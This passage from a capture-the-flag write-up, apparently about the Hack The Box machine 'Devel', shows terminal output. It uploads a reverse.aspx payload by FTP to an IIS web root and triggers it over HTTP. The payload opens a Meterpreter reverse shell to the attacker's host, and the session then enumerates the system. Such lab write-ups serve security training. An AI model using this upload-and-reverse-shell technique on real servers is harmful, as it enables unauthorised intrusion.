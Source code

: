 ```
local: reverse.aspx remote: reverse.aspx
229 Entering Extended Passive Mode (|||49169|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************|   876 KiB  168.35 KiB/s    --:-- ETA
226 Transfer complete.
897093 bytes sent in 00:05 (154.40 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||49170|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
10-12-23  11:18AM                 3471 exploit.aspx
03-17-17  05:37PM                  689 iisstart.htm
10-12-23  11:28AM               897093 reverse.aspx
10-12-23  11:09AM                   16 test.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.

```

5. Run the exploit and then get the meterpreter shell. 
```

http://10.10.10.5/reverse.aspx

meterpreter > [*] Meterpreter session 2 opened (10.10.14.5:4321 -> 10.10.10.5:49172) at 2023-10-12 04:29:09 -0400
id
[-] Unknown command: id
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows


```


## Initial Enumeration 

#### System Enumeration 

1. Shell - Meterpreter will give interactive shell
```
meterpreter > shell
Process 3980 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
